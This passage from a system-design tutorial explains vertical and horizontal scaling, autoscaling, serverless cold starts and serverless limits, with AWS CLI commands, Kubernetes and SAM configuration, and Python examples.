  --instance-type "{\"Value\": \"m5.2xlarge\"}"

# 3. Start it again: same disk, same code, more power
aws ec2 start-instances --instance-ids i-0abc123def4567890

# Managed database version (Amazon RDS): change the DB instance class
aws rds modify-db-instance \
  --db-instance-identifier orders-db \
  --db-instance-class db.r6g.2xlarge \
  --apply-immediately
```

Notice the downtime between steps 1 and 3. Also, an instance without an Elastic IP (a fixed public IP) gets a **new public IP** after a stop/start. For RDS with Multi-AZ (a standby copy in another data center), AWS applies the change to the standby and then fails over, so you only see a short pause.

**🌍 Real-world usage:**
- **Stack Overflow** is the classic example. For many years it served one of the busiest sites on the internet from a relatively small number of powerful servers (a handful of web servers and a few big SQL Server database machines) that it ran itself. It chose to scale up and tune its code instead of running hundreds of small machines.
- **Databases are usually scaled vertically first.** Adding RAM and faster disks to one PostgreSQL or MySQL server is far easier than splitting data across machines (Sharding, #47). Many companies run their main database on one large machine (plus replicas for safety) for years.
- **Cloud "resize" buttons**: AWS EC2 instance types, Amazon RDS instance classes, Google Compute Engine machine types and Azure VM sizes all make scaling up a few-minute operation.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Dead simple: no code or architecture change | Hard hardware ceiling |
| No distributed-systems problems (no network splits, no data syncing) | Top-end machines cost more per unit of power |
| Great for databases and other stateful software | Single point of failure |
| Fewer machines to patch, monitor and pay licenses for | Resizing usually means a restart (downtime) |
| Fast way to buy time during growth | You pay for peak capacity 24/7 |

**⚠️ Common mistakes:**
- Scaling up without finding the real bottleneck. A missing index (#40) or an N+1 query (#42) will still be slow on a giant machine.
- Expecting single-threaded software to use more cores. It can't, so check whether your app or database can actually use them.
- Resizing the production database at peak hour without a maintenance window or a failover plan.
- Waiting until you hit the ceiling to think about horizontal scaling. Plan the next step while you still have room.
- Running one huge box 24/7 that is busy only a few hours a day (see #65 Autoscaling and #68 Cost Optimization).

**🎯 Remember:** Scale up first because it is simple. Plan to scale out because scaling up has a ceiling and a single point of failure.

**🔗 See also:** [#64 Horizontal Scaling](#64-horizontal-scaling), [#45 Read Replicas](#45-read-replicas), [#47 Sharding](#47-sharding), [#40 Database Indexing](#40-database-indexing), [#68 Cost Optimization](#68-cost-optimization)

---

### 64. Horizontal Scaling

> **In one line:** Horizontal scaling means adding more machines and sharing the work between them, instead of making one machine bigger.

**🏠 Real-life analogy:** Instead of buying one giant truck, you buy a fleet of normal trucks and hire a dispatcher. The dispatcher hands each package to whichever truck is free. If one truck breaks down, the others keep delivering. Need more capacity? Add another truck. This only works if **any truck can deliver any package**. If packages for "Alice" can only travel in truck #3 because her paperwork is in truck #3's glovebox, the whole system breaks. That is "more trucks" scaling, also called **scaling out**.

**❓ What problem does it solve?**
- **The ceiling of vertical scaling:** you can keep adding machines long after the biggest single machine would have run out.
- **Single point of failure:** with 10 servers, losing 1 means losing 10% of capacity, not 100%.
- **Cost flexibility:** you can add machines at peak and remove them at night (#65 Autoscaling).
- **Zero-downtime deploys:** you can update servers one at a time (#78 Rolling Deployments).

Without it, a fast-growing app eventually outgrows any single box and has no way to survive a hardware failure.

**⚙️ How it works:**
1. **Run several identical copies** (called *instances* or *replicas*) of your application on different machines.
2. **Put a load balancer in front** (#12). It receives every request and spreads them across the copies (round robin, least connections and so on).
3. **Health checks** (#16) let the load balancer stop sending traffic to a copy that has crashed.
4. **Make the app stateless.** *State* is any data a server remembers between requests (logged-in sessions, shopping carts, uploaded files). A *stateless* server keeps nothing important in its own memory or local disk. Everything lives in shared stores:
   - sessions and carts → **Redis** or the database
   - uploaded files and images → **object storage** like Amazon S3
   - business data → the **database**

   Now any server can handle any request, so you can add or remove servers freely.
5. **Sticky sessions** (the load balancer always sends a user to the same server) are a quick workaround for stateful apps. But if that server dies, the user's session dies too, and load gets uneven. Treat them as a stopgap.
6. **Shared-nothing architecture:** each node (machine) has its own CPU, memory and disk and shares *nothing* with the others except the network. There is no shared disk or shared memory to become a bottleneck, so adding nodes adds capacity almost linearly. Web tiers, sharded databases and systems like Cassandra are built this way.

```mermaid
flowchart LR
    subgraph StatefulApp["Stateful: cart lives inside one server"]
        UserA["Alice"] --> LBA["Load Balancer"]
        LBA -->|"request 1"| SrvA1["Server A<br/>Alice's cart in memory"]
        LBA -.->|"request 2"| SrvB1["Server B<br/>empty cart, Alice is confused"]
    end
```

```mermaid
flowchart LR
    subgraph StatelessApp["Stateless: state lives in shared stores"]
        UserB["Alice"] --> LBB["Load Balancer"]
        LBB --> SrvA2["Server A"]
        LBB --> SrvB2["Server B"]
        LBB --> SrvC2["Server C"]
        SrvA2 --> Redis[("Redis<br/>sessions + carts")]
        SrvB2 --> Redis
        SrvC2 --> Redis
        SrvA2 --> Files[("S3<br/>uploaded files")]
        SrvC2 --> DB[("Database")]
    end
```

**What's hard to scale horizontally, and why:**
- **Databases (especially writes).** Reads are fairly easy: copy the data to read replicas (#45). Writes are hard because every copy must agree on the latest value. Coordinating that over a network is slow and can fail (CAP Theorem #50, Replication #44). Splitting data across machines (Sharding #47) makes cross-shard joins and transactions (#36) painful.
- **Stateful systems.** WebSocket servers (#22) keep long-lived connections, game servers keep the match in memory, and in-memory caches hold local data. You can't just move a user to another box mid-session.
- **Anything needing one global order or one counter**, like sequential IDs, locks (#55) or a single leader (#54). Many machines must coordinate, and coordination is a bottleneck.

```mermaid
flowchart TD
    Apps["Many stateless app servers<br/>(easy to add more)"] -->|"reads"| Replicas["Read replicas<br/>(fairly easy to add)"]
    Apps -->|"writes"| Primary[("One primary database<br/>(the hard part)")]
    Primary -->|"too many writes"| Shards["Sharding: split data<br/>across many primaries"]
```

**💻 Example:** The key code change for horizontal scaling is moving state out of the server. Here is a Flask (Python web framework) cart, first stateful, then stateless:

```python
import json
import redis
from flask import Flask, request

app = Flask(__name__)

# BAD: state lives in THIS server's memory.
# Lost on restart, and the other servers can't see it.
carts = {}

@app.post("/bad/cart/<user_id>")
def add_bad(user_id):
    carts.setdefault(user_id, []).append(request.json["item"])
    return {"ok": True}

# GOOD: state lives in Redis, shared by every server.
r = redis.Redis(host="redis.internal", port=6379)

@app.post("/cart/<user_id>")
def add_good(user_id):
    key = f"cart:{user_id}"
    r.rpush(key, json.dumps(request.json["item"]))  # append item to a list
    r.expire(key, 60 * 60 * 24)                     # cart expires after 1 day
    return {"ok": True}
```

Once the app is stateless, scaling out is a single command:

```bash
# Docker Compose: run 5 copies of the "web" service
docker compose up -d --scale web=5

# Kubernetes: run 10 copies (pods) of the "web" deployment
kubectl scale deployment web --replicas=10
```

**Vertical vs. horizontal at a glance:**

| Aspect | Vertical (scale up) | Horizontal (scale out) |
|---|---|---|
| How | Bigger machine | More machines |
| Code changes | Usually none | App must be stateless, plus a load balancer |
| Upper limit | Biggest machine available | Very high (thousands of machines) |
| Failure impact | One box down = everything down | One box down = small capacity loss |
| Scaling downtime | Usually a restart | None (add or remove behind the LB) |
| Cost shape | Pay for peak 24/7 | Pay closer to actual demand |
| Complexity | Low | Higher (networking, data consistency, deploys) |
| Best for | Databases, early-stage apps, stateful software | Web/API tiers, workers, large-scale systems |

**🌍 Real-world usage:**
- **Google** famously built its search engine on large clusters of cheap commodity PCs instead of a few expensive servers, as described in its 2003 paper "Web Search for a Planet: The Google Cluster Architecture".
- **Netflix** runs its many stateless microservices across large fleets of AWS instances in multiple regions, adding and removing capacity with demand.
- **Shopify** runs its Ruby on Rails app on many identical app servers and splits shop data across isolated "pods", each with its own MySQL database, so both the app tier and the data tier scale out.
- Common tools: load balancers (NGINX, HAProxy, AWS ELB/ALB), Kubernetes Deployments, AWS Auto Scaling Groups, Redis for shared sessions, S3 for shared files.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Almost no upper limit | More moving parts: load balancer, service discovery, shared stores |
| Survives individual machine failures | App must be designed stateless |
| Add or remove capacity without downtime | Data consistency becomes hard (databases, caches) |
| Enables autoscaling and rolling deploys | Harder debugging: a request may touch many machines |
| Many small machines can be cheaper and more flexible | Network calls add latency and new failure modes |

**⚠️ Common mistakes:**
- Keeping sessions, uploads or temp files on local disk, so users get randomly logged out or see "file not found" depending on which server they hit.
- Relying on sticky sessions forever instead of fixing the state problem.
- Forgetting the database: 50 app servers can open far more connections than one database can handle (#43 Connection Pooling).
- Running scheduled jobs on every instance, so a "daily" email goes out 10 times (#35 Cron Jobs, #55 Distributed Locks).
- Per-server in-memory caches that drift apart and show users different data (#39 Cache Invalidation).

**🎯 Remember:** Scale out = more machines + a load balancer + stateless app servers. Push state into shared stores (Redis, database, S3). The stateful parts, especially the database, are the hard part.

**🔗 See also:** [#63 Vertical Scaling](#63-vertical-scaling), [#12 Load Balancing](#12-load-balancing), [#16 Health Checks](#16-health-checks), [#65 Autoscaling](#65-autoscaling), [#45 Read Replicas](#45-read-replicas), [#47 Sharding](#47-sharding), [#50 CAP Theorem](#50-cap-theorem)

---

### 65. Autoscaling

> **In one line:** Autoscaling means the system automatically adds machines when it gets busy and removes them when it gets quiet.

**🏠 Real-life analogy:** A supermarket manager watches the checkout lines. When lines get long, she opens more lanes. When the store empties out, she closes lanes and sends cashiers on break. A new cashier takes a few minutes to arrive and log in, so she calls them in a bit early, before lines get terrible. She always keeps at least two lanes open (a **minimum**), and she can't open more lanes than there are tills (a **maximum**). If she opened and closed lanes every 30 seconds, everyone would be confused, so she waits a little between decisions (a **cooldown**).

**❓ What problem does it solve?** Traffic is rarely flat. It follows daily cycles (busy evenings, quiet nights), weekly cycles, seasonal spikes (Black Friday) and surprise spikes (a viral post).
- Size the fleet for **peak** and you pay for idle machines most of the day.
- Size it for **average** and the site falls over at peak.
- Resize it **by hand** and someone has to watch graphs at 3 a.m. and react fast enough.

Autoscaling resizes the fleet to match demand, automatically, within limits you set.

**⚙️ How it works:** It is a **feedback loop** (a loop that keeps measuring and correcting, like a thermostat):
1. **Measure** a signal every few seconds or minutes.
2. **Compare** it to a target (for example, "average CPU should be 60%").
3. **Decide** how many instances are needed.
4. **Act**: launch or terminate instances or pods, never going below *min* or above *max*.
5. **Wait** (cooldown or stabilization window), then repeat.

**Signals you can scale on:**
- **CPU utilization**: simple and the default, good for compute-heavy web servers.
- **Memory**: useful, but many apps don't release memory when load drops.
- **Requests per second (RPS) per instance**: great for web/API tiers.
- **Queue length or consumer lag**: best for background workers (#31). Ten thousand waiting jobs means "add workers" even if CPU looks fine.
- **Custom metrics**: active WebSocket connections, p99 latency (#7), jobs in progress and so on.

**Kinds of policies:**
- **Target tracking**: "keep average CPU at 50%". The system computes how many instances that takes. This is the easiest place to start.
- **Step scaling**: "if CPU > 70%, add 2. If CPU > 90%, add 5."
- **Scheduled**: "at 8:00 on weekdays, set min = 20", for known patterns.
- **Predictive**: uses past daily and weekly patterns to launch capacity *before* the expected rise.

**In Kubernetes (#70), there are layers:**
- **HorizontalPodAutoscaler (HPA)** changes the number of pods. Roughly: `desired = ceil(current × currentMetric / target)`. Example: 4 pods at 90% CPU with a 60% target gives ceil(4 × 90 / 60) = **6 pods**. By default it re-checks about every 15 seconds.
- **VerticalPodAutoscaler (VPA)** changes the CPU and memory *size* of each pod instead of the count.
- **Cluster Autoscaler** adds nodes (machines) when pods are stuck *Pending* because no node has room, and removes nodes that sit mostly empty.
- **Karpenter** is a newer open-source node autoscaler, originally built by AWS. It looks at pending pods and directly launches right-sized machines, often faster and with better-fitting instance types.
- **KEDA** (Kubernetes Event-Driven Autoscaling) scales on event sources like Kafka lag, SQS or RabbitMQ queue length, Prometheus queries or cron schedules. It can scale workers **down to zero** when there is nothing to do.

**In AWS:** an **Auto Scaling Group (ASG)** keeps a fleet of EC2 instances between *min* and *max*, around a *desired* count. It supports target tracking, step, scheduled and predictive scaling policies, and replaces unhealthy instances automatically.

**Cooldowns and flapping:** *Flapping* is when the autoscaler scales up, then down, then up again every few minutes. It wastes money and causes churn. Fixes:
- Cooldowns or stabilization windows ("don't scale down until load has been low for 5 minutes").
- **Scale up fast, scale down slowly.**
- Leave a gap between the scale-up and scale-down thresholds (called *hysteresis*).

**Scale-up lag:** a new VM can take a minute or more to boot, plus app warm-up time. New pods start in seconds *if* a node has room. If a node must be added first, you wait for that too. During that time the existing servers absorb the spike. So:
- keep **headroom** (target 50–70% CPU, not 90%)
- use **scheduled or predictive** scaling for known peaks
- keep images small and startup fast, or use warm pools (pre-initialized, stopped instances that start quickly)

**Set min and max deliberately:**
- **min** gives availability: at least 2–3 instances spread across zones.
- **max** caps cost and protects downstream systems. A bug, a retry storm or a DDoS can otherwise "autoscale your bill" or open thousands of database connections.

**Scaling down safely (connection draining):** before a server is removed, the load balancer stops sending it *new* requests and waits for *in-flight* requests to finish. AWS load balancers call this the *deregistration delay* (300 seconds by default). In Kubernetes, a terminating pod is removed from the Service endpoints and receives a SIGTERM signal, then gets `terminationGracePeriodSeconds` (30 seconds by default) to finish its work. Workers should finish the current job or put it back on the queue.

```mermaid
flowchart LR
    Measure["Measure<br/>CPU, RPS, queue length"] --> Compare{"Compared to<br/>target?"}
    Compare -->|"too high"| AddCap["Add instances<br/>(never above max)"]
    Compare -->|"too low"| RemoveCap["Drain, then remove instances<br/>(never below min)"]
    Compare -->|"about right"| Hold["Do nothing"]
    AddCap --> Cooldown["Wait: cooldown /<br/>stabilization window"]
    RemoveCap --> Cooldown
    Hold --> Cooldown
    Cooldown --> Measure
```

```mermaid
flowchart TD
    Load["More traffic or<br/>a longer queue"] --> HPA["HPA or KEDA<br/>wants more pods"]
    HPA --> Room{"Room on<br/>existing nodes?"}
    Room -->|"yes"| PodsRun["New pods start<br/>in seconds"]
    Room -->|"no: pods stay Pending"| NodeScaler["Cluster Autoscaler or Karpenter<br/>launches new nodes"]
    NodeScaler --> NodeBoot["Node boots (often a minute or more),<br/>then pods start"]
```

**💻 Example:** A Kubernetes HPA using the `autoscaling/v2` API. It keeps CPU near 60%, between 3 and 30 pods, scales up quickly and scales down slowly:

```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: web-hpa
spec:
  scaleTargetRef:                # WHAT to scale
    apiVersion: apps/v1
    kind: Deployment
    name: web
  minReplicas: 3                 # availability floor
  maxReplicas: 30                # cost ceiling + protects the database
  metrics:
    - type: Resource
      resource:
        name: cpu
        target:
          type: Utilization
          averageUtilization: 60 # % of the pods' CPU *requests*, leaves headroom
  behavior:
    scaleUp:
      stabilizationWindowSeconds: 0     # react to spikes right away
      policies:
        - type: Percent
          value: 100                    # at most double the pods...
          periodSeconds: 60             # ...per minute
    scaleDown:
      stabilizationWindowSeconds: 300   # load must stay low for 5 min first
      policies:
        - type: Pods
          value: 2                      # remove at most 2 pods per minute
          periodSeconds: 60
```

For queue workers, KEDA can scale on queue length, all the way down to zero (authentication config omitted):

```yaml
apiVersion: keda.sh/v1alpha1
kind: ScaledObject
metadata:
  name: email-worker-scaler
spec:
  scaleTargetRef:
    name: email-worker           # the Deployment to scale
  minReplicaCount: 0             # no messages = no pods = no cost
  maxReplicaCount: 50
  triggers:
    - type: aws-sqs-queue
      metadata:
        queueURL: https://sqs.us-east-1.amazonaws.com/123456789012/emails
        queueLength: "20"        # aim for about 20 waiting messages per pod
        awsRegion: us-east-1
```

And a target-tracking policy on an AWS Auto Scaling Group:

```bash
aws autoscaling put-scaling-policy \
  --auto-scaling-group-name web-asg \
  --policy-name keep-cpu-at-50 \
  --policy-type TargetTrackingScaling \
  --target-tracking-configuration '{"PredefinedMetricSpecification":{"PredefinedMetricType":"ASGAverageCPUUtilization"},"TargetValue":50.0}'
```

**🌍 Real-world usage:**
- **Netflix** described **Scryer** in 2013, a predictive autoscaling engine that forecasts traffic from historical patterns and adds capacity before the evening rush instead of reacting after it.
- **AWS Auto Scaling Groups** (with predictive scaling), **Google Cloud managed instance groups** and **Azure Virtual Machine Scale Sets** autoscale VMs.
- **Kubernetes HPA + Cluster Autoscaler or Karpenter** is the standard combination for containers. **KEDA** is a CNCF project, originally created by Microsoft and Red Hat, that is widely used for queue-driven workers.
- Retailers commonly use **scheduled scaling** to pre-warm capacity before big sales instead of trusting reactive scaling to catch up.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Target tracking (CPU/RPS) | Default for web/API tiers | Reacts only after load rises |
| Step scaling | Need different reactions to small vs. huge spikes | More tuning, easy to get wrong |
| Scheduled | Known patterns (business hours, sale events) | Wrong if reality differs from the schedule |
| Predictive | Strong daily or weekly patterns | Can't predict surprise spikes |
| Queue-based (KEDA, queue depth) | Background workers, batch jobs | Needs a good "messages per worker" target |
| Fixed size (no autoscaling) | Tiny or very steady workloads | Pay for peak, or fall over at peak |

**⚠️ Common mistakes:**
- Scaling queue workers or I/O-bound apps on CPU. They may be "idle" on CPU while the queue explodes, so scale on queue length or RPS.
- No **max**, so a bug, retry storm or attack scales you into a huge bill and a melted database.
- **min = 1**: no redundancy, and a cold, slow start on the first spike.
- Targets too high (like 90% CPU): no headroom while new instances boot.
- Forgetting CPU *requests* on Kubernetes pods. The HPA computes utilization against requests, so without them it can't scale on CPU.
- Scaling down without connection draining, which cuts off users mid-request.

**🎯 Remember:** Autoscaling is a thermostat for servers: measure → compare to target → add or remove → wait. Pick the right signal, set min and max, scale up fast and down slowly, and keep headroom for boot time.

**🔗 See also:** [#64 Horizontal Scaling](#64-horizontal-scaling), [#70 Kubernetes](#70-kubernetes), [#31 Message Queues](#31-message-queues), [#17 Liveness & Readiness Probes](#17-liveness--readiness-probes), [#66 Cold Starts (Serverless)](#66-cold-starts-serverless), [#68 Cost Optimization](#68-cost-optimization)

---


### 66. Cold Starts (Serverless)

> **In one line:** A cold start is the extra waiting time when a serverless function has to be set up from scratch before it can answer your request.

**First, what is "serverless"?** Normally you rent servers (or containers), keep them running all day, and pay for them whether they are busy or idle. With **serverless**, also called **Functions-as-a-Service (FaaS)**, you just upload a *function* (a small piece of code). The cloud provider runs it **only when an event happens**: an HTTP request, a file uploaded to storage, a message on a queue, or a timer. You never see or manage the machines. ("Serverless" doesn't mean there are no servers. It means they are not *your* problem.)
- **You pay per invocation** (each time the function runs) plus for how long it runs and how much memory it uses.
- **It scales automatically**, from zero to thousands of copies in parallel.
- **It scales to zero**: no traffic means no running copies and (almost) no cost.

Popular platforms: **AWS Lambda**, **Google Cloud Run functions** (formerly Cloud Functions) and **Cloud Run** (which runs whole containers the same pay-per-use way), **Azure Functions**, and **Cloudflare Workers** (which run code at the network edge in lightweight V8 *isolates*, the same engine sandbox Chrome uses).

**🏠 Real-life analogy:** It's late at night at a taxi rank. If a taxi is already waiting with the engine running (**warm**), you hop in and go. If no taxi is waiting (**cold**), the company has to wake a driver, who walks to the car, starts it and drives over. Only then does your trip begin. After dropping you off, the driver waits around for a while in case another passenger shows up. If nobody comes, they go home (**scale to zero**), and the next passenger gets a cold start again.

**❓ What problem does it solve?** Understanding cold starts solves a *latency* (waiting time) problem that serverless creates. Because functions scale to zero and each copy is created on demand, some requests have to wait for setup. That can take anywhere from tens of milliseconds to several seconds. The pain shows up as:
- the first request after a quiet period being very slow
- a burst of traffic causing many cold starts at once, because each new parallel copy starts cold
- bad p99 latency (#7), even when the average looks fine
- user-facing APIs and checkout pages feeling sluggish "randomly"

**⚙️ How it works (AWS Lambda as the example):**
1. A request arrives and there is **no idle, ready copy** of your function.
2. The platform **allocates an execution environment**, a small isolated sandbox. Lambda uses lightweight *micro-VMs* (tiny virtual machines) built with a technology called Firecracker.
3. It **downloads your code** (zip package or container image).
4. It **starts the language runtime** (the Python interpreter, Node.js, or the Java Virtual Machine).
5. It **runs your init code**: everything *outside* your handler function, such as imports, creating SDK clients, opening database connections and loading config.
6. Finally it **runs your handler** for this request.

Steps 2–5 are the **cold start**. After the response, the environment is *frozen* and kept around for a while. A **warm start** reuses it and runs only step 6. The platform decides how long environments live, and it is not guaranteed. On Lambda, one environment handles **one request at a time**, so 100 simultaneous requests can mean up to 100 environments (and cold starts). Cloud Run instances, by contrast, can serve many requests at once (80 concurrent requests per instance by default).

**What makes cold starts longer:**
- **Runtime/language:** Python, Node.js and Go usually start fast. Java and .NET start slower because their virtual machines (JVM/CLR) are heavier and need time to "warm up".
- **Package size:** a bigger zip or image, and more dependencies to import, means longer download and load times.
- **Init work:** loading large ML models, fetching secrets, or opening many connections at startup.
- **VPC networking:** attaching a function to a private network (VPC) used to add many seconds. AWS greatly reduced this in 2019 by pre-creating network interfaces, but private networking can still add some setup.
- **Memory size:** Lambda gives CPU in proportion to memory (about 1 full vCPU at 1,769 MB), so a tiny memory setting also means a slow CPU during init.

**How to reduce cold starts:**
- **Provisioned concurrency** (Lambda), **minimum instances** (Cloud Run), **pre-warmed / always-ready instances** (Azure Functions Premium/Flex): keep N copies initialized and ready. Effective, but you pay for them even when idle.
- **Smaller bundles:** remove unused dependencies, bundle and tree-shake JavaScript (for example with esbuild), import only the SDK clients you need (AWS SDK for JavaScript v3 is modular).
- **Lazy initialization:** load heavy things only when a request actually needs them.
- **Keep init outside the handler and reuse connections:** create clients once per environment, not once per request.
- **Lambda SnapStart:** Lambda takes a snapshot of the already-initialized environment and resumes from it instead of booting. It launched for Java and was later extended to Python and .NET.
- **Lighter runtimes:** Go, Rust or Node.js, or Java compiled ahead-of-time (GraalVM native image). Cloudflare Workers' isolates typically start in milliseconds.
- **Avoid "ping every 5 minutes" warmers** as your main strategy. They keep roughly one copy warm, which doesn't help with bursts.

```mermaid
sequenceDiagram
    participant U as User
    participant P as Platform
    participant E as Execution Environment
    participant F as Your Function
    U->>P: Request 1 (no warm copy available)
    Note over P,F: COLD START
    P->>E: Allocate micro-VM sandbox
    E->>E: Download code package
    E->>E: Start runtime (Python, Node, JVM)
    E->>F: Run init code (imports, SDK clients, DB connection)
    F-->>U: Response 1 (slow - setup plus work)
    Note over E,F: Environment frozen and kept for reuse
    U->>P: Request 2 (a few seconds later)
    Note over P,F: WARM START
    P->>F: Run handler only
    F-->>U: Response 2 (fast - work only)
```

**💻 Example:** A Python Lambda handler that does expensive setup **once per environment**, outside the handler, and loads a rarely used heavy object lazily:

```python
import json
import os
import boto3

# ---------- INIT PHASE: runs once per cold start, reused while warm ----------
dynamodb = boto3.resource("dynamodb")             # create the SDK client ONCE
table = dynamodb.Table(os.environ["TABLE_NAME"])  # read config ONCE
_report_template = None                           # heavy and rarely needed: load lazily

def get_report_template():
    global _report_template
    if _report_template is None:                  # only the first request that needs it pays
        with open("templates/big_report.html") as f:
            _report_template = f.read()
    return _report_template

# ---------- HANDLER: runs on EVERY invocation ----------
def lambda_handler(event, context):
    user_id = event["pathParameters"]["id"]
    item = table.get_item(Key={"id": user_id}).get("Item")  # reuses the warm client
    if item is None:
        return {"statusCode": 404, "body": json.dumps({"error": "not found"})}
    params = event.get("queryStringParameters") or {}
    if params.get("format") == "report":               # rare path: lazy-loaded template
        html = get_report_template().replace("{{name}}", item["name"])
        return {"statusCode": 200, "body": html}
    return {"statusCode": 200, "body": json.dumps(item, default=str)}
```

Keeping 10 copies always warm for a latency-sensitive function (provisioned concurrency must target a version or alias, here `live`):

```bash
aws lambda put-provisioned-concurrency-config \
  --function-name checkout-api \
  --qualifier live \
  --provisioned-concurrent-executions 10
```

**🌍 Real-world usage:**
- **AWS Lambda** runs huge amounts of event-driven code: image thumbnails on S3 upload, webhook handlers (#19), stream processing and scheduled jobs. Teams use **provisioned concurrency** or **SnapStart** for user-facing, latency-sensitive endpoints.
- **Google Cloud Run** lets you set `min-instances` to avoid cold starts on important services, and serves many requests per instance to reduce how often new instances are needed.
- **Cloudflare Workers** avoid container or VM boot entirely by running code in V8 isolates, which is why their startup is typically measured in milliseconds.
- AWS has noted that for steady production traffic, cold starts are usually a small fraction of invocations. They mostly hurt spiky or low-traffic functions and bursts.

**⚖️ Trade-offs:**

| Mitigation | Helps with | Downside |
|---|---|---|
| Provisioned concurrency / min instances | Predictable low latency | You pay for idle copies |
| Smaller packages, fewer dependencies | Every cold start | Engineering effort, careful bundling |
| Init outside handler + connection reuse | Warm-request speed | Init still runs on each cold start |
| Lazy initialization | Shorter cold starts | First request that needs the resource is slower |
| SnapStart | Heavy runtimes (Java) | Must handle uniqueness and stale state restored from snapshot |
| Lighter runtime (Go, Rust, Node) | Fundamental startup time | Possible rewrite, team skills |
| More memory | Faster init (more CPU) | Higher cost per millisecond |

**⚠️ Common mistakes:**
- Creating database connections or SDK clients **inside** the handler, paying setup on every request and exhausting the database (#43).
- Shipping huge packages (dev dependencies, whole SDKs, test data).
- Benchmarking only warm calls and then being surprised by p99 latency in production.
- Relying on scheduled "warming pings" to handle bursty traffic.
- Turning on provisioned concurrency everywhere (cost explodes) instead of only on latency-critical paths.

**🎯 Remember:** Cold start = setup cost (sandbox + code + runtime + your init) paid when no warm copy exists. Keep init small and outside the handler, reuse connections, and pay for pre-warmed capacity only where latency really matters.

**🔗 See also:** [#67 Serverless Limits](#67-serverless-limits), [#65 Autoscaling](#65-autoscaling), [#7 p99 Latency (Percentiles)](#7-p99-latency-percentiles), [#43 Connection Pooling](#43-connection-pooling), [#68 Cost Optimization](#68-cost-optimization)

---

### 67. Serverless Limits

> **In one line:** Serverless platforms have hard rules about how long a function may run, how much memory and data it can use, and how many copies can run at once, and you must design around them.

**🏠 Real-life analogy:** Serverless is like living in a hotel instead of owning a house. Someone else cleans, fixes the plumbing, and you pay only for the nights you stay. But there is a fixed checkout time (**max execution time**). You can't leave your stuff in the room between stays (**statelessness**). The hotel has a limited number of rooms (**concurrency limits**). If you live there all year, it costs far more than renting an apartment (**cost at constant load**). And moving all your habits to another hotel chain is a pain (**vendor lock-in**).

**❓ What problem does it solve?** Knowing the limits upfront saves you from painful surprises like these:
- A video-processing job dies at exactly 15 minutes, halfway through.
- A traffic burst launches 1,000 function copies, each opening its own database connection, and PostgreSQL (default `max_connections` = 100) falls over.
- A file upload API returns "payload too large" because the request body is over the limit.
- One noisy function uses up the account's concurrency, and *every other* function in that region gets throttled (rejected with "too many requests").
- The monthly bill for a busy, always-on service is higher than the same work on a few containers would cost.

**⚙️ How it works: the limits.** Typical **AWS Lambda** limits are below. These numbers change over time, so always check the current AWS documentation.

| Limit | Typical value (AWS Lambda) | Can you change it? |
|---|---|---|
| Max execution time (timeout) | 15 minutes (900 seconds) | No, it's a hard limit |
| Memory | 128 MB up to 10,240 MB (CPU grows with memory) | You pick within this range |
| Synchronous invocation payload | 6 MB request and 6 MB response | No |
| Concurrent executions | 1,000 per account per region by default | Yes, request a quota increase |
| Ephemeral `/tmp` storage | 512 MB by default, configurable up to 10 GB (10,240 MB) | Configurable |
| Deployment package | 50 MB zipped (direct upload), 250 MB unzipped; container images up to 10 GB | No |

Other platforms have similar but different numbers. For example, Cloud Run allows much longer request timeouts (up to 60 minutes), and Cloudflare Workers limit CPU time per request. Services in front of your function add their own limits too: Amazon API Gateway REST APIs have a 29-second integration timeout by default.

**The bigger design limits:**
1. **Statelessness.** An environment can be destroyed at any time. Memory and `/tmp` are not shared between copies and do not survive. Keep all state in a database, Redis or S3. Also, don't rely on background threads after you return a response, because the environment is frozen.
2. **Database connection exhaustion.** Each concurrent copy opens its own connection, so 1,000 copies means 1,000 connections. Fixes:
   - a connection pooler/proxy such as Amazon RDS Proxy or PgBouncer (#43)
   - **reserved concurrency** to cap how many copies a function can run
   - databases designed for many short connections (DynamoDB, HTTP-based data APIs)
3. **Vendor lock-in.** Triggers, permissions (IAM), event formats and orchestration are provider-specific. To reduce lock-in, keep business logic in plain modules with a thin handler "adapter". Container-based serverless (Cloud Run, Knative) is more portable.
4. **Cost at constant high load.** You pay per request and per GB-second (memory × time). For spiky or low traffic this is very cheap because idle costs nothing. For steady, high, 24/7 traffic, always-on containers or VMs (especially with commitment discounts, #68) are usually cheaper. There is a break-even point, so do the math.
5. **Other limits:** cold starts (#66), less control over hardware (Lambda has no GPUs), harder local testing, and debugging across many small functions (you need good logging and tracing).

**Workarounds for the time and size limits:**
- **Fan-out:** split a big job into many small chunks, put them on a **queue**, and let many functions process them in parallel.
- **Orchestrate** multi-step workflows with **AWS Step Functions**. Its Standard workflows can run for up to a year, while each step stays short.
- **Move long or heavy jobs to containers**: AWS Fargate, Cloud Run jobs, AWS Batch or Kubernetes Jobs.
- **Large files:** don't send them through the function. Have clients upload directly to S3 (using a *pre-signed URL*, a temporary upload link), then trigger a function on the upload event.

```mermaid
flowchart LR
    BigJob["Big job:<br/>resize 1 million images"] --> Splitter["Splitter function<br/>creates chunks of 100"]
    Splitter --> Queue["SQS queue<br/>one message per chunk"]
    Queue --> Worker1["Worker function"]
    Queue --> Worker2["Worker function"]
    Queue --> Worker3["Worker function"]
    Worker1 --> Results[("S3 results")]
    Worker2 --> Results
    Worker3 --> Results
    BigJob -.->|"one long task over 15 min"| Containers["Container on Fargate /<br/>Cloud Run jobs"]
    BigJob -.->|"many steps with waits"| StepFn["Step Functions<br/>workflow"]
```

**💻 Example:** An AWS SAM template (YAML that describes serverless resources) that sets limits deliberately: timeout, memory, `/tmp` size, and **reserved concurrency** to protect the database. A queue feeds it work in batches:

```yaml
Transform: AWS::Serverless-2016-10-31
Resources:
  JobsQueue:
    Type: AWS::SQS::Queue
    Properties:
      VisibilityTimeout: 720            # AWS recommends >= 6x the function timeout

  ResizeWorker:
    Type: AWS::Serverless::Function
    Properties:
      Handler: app.handler
      Runtime: python3.12
      CodeUri: src/
      MemorySize: 1024                  # MB, more memory also means more CPU
      Timeout: 120                      # seconds (hard max is 900 = 15 min)
      EphemeralStorage:
        Size: 2048                      # MB of /tmp (default 512, max 10240)
      ReservedConcurrentExecutions: 50  # never more than 50 copies, protects the DB
      Events:
        Jobs:
          Type: SQS
          Properties:
            Queue: !GetAtt JobsQueue.Arn
            BatchSize: 10               # up to 10 messages per invocation
```

**🌍 Real-world usage:**
